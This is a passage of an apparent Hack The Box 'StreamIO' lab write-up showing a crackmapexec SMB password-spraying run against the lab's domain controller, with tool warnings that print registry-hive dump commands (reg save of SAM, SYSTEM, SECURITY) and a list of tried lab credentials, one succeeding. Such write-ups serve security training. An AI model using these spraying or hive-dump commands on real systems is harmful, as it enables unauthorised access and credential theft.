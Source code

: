 These can be used to access internal apps, portals, or reused elsewhere like WinRM, RDP, SMB, or MSSQL.


Now let's 
check which creds work using crackmapexec:

```
┌──(glitch💀kali)-[~/…/HTB/labs/Machines/StreamIO]
└─$ crackmapexec smb 10.10.11.158 -u usernames_system.txt -p passwords_system.txt
/usr/lib/python3/dist-packages/cme/cli.py:37: SyntaxWarning: invalid escape sequence '\ '
  formatter_class=RawTextHelpFormatter)
/usr/lib/python3/dist-packages/cme/protocols/winrm.py:324: SyntaxWarning: invalid escape sequence '\S'
  self.conn.execute_cmd("reg save HKLM\SAM C:\\windows\\temp\\SAM && reg save HKLM\SYSTEM C:\\windows\\temp\\SYSTEM")
/usr/lib/python3/dist-packages/cme/protocols/winrm.py:338: SyntaxWarning: invalid escape sequence '\S'
  self.conn.execute_cmd("reg save HKLM\SECURITY C:\\windows\\temp\\SECURITY && reg save HKLM\SYSTEM C:\\windows\\temp\\SYSTEM")
/usr/lib/python3/dist-packages/cme/protocols/smb/smbexec.py:49: SyntaxWarning: invalid escape sequence '\p'
  stringbinding = 'ncacn_np:%s[\pipe\svcctl]' % self.__host
/usr/lib/python3/dist-packages/cme/protocols/smb/smbexec.py:93: SyntaxWarning: invalid escape sequence '\{'
  command = self.__shell + 'echo '+ data + ' ^> \\\\127.0.0.1\\{}\\{} 2^>^&1 > %TEMP%\{} & %COMSPEC% /Q /c %TEMP%\{} & %COMSPEC% /Q /c del %TEMP%\{}'.format(self.__share_name, self.__output, self.__batchFile, self.__batchFile, self.__batchFile)
SMB         10.10.11.158    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:JDg0dd1s@d0p3cr3@t0r STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:n1kk1sd0p3t00:) STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:paddpadd@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:password@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:JDg0dd1s@d0p3cr3@t0r STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:n1kk1sd0p3t00:) STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:paddpadd@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\nikk37:password@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:JDg0dd1s@d0p3cr3@t0r STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:n1kk1sd0p3t00:) STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:paddpadd@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [-] streamIO.htb\yoshihide:password@12 STATUS_LOGON_FAILURE 
SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r 
```
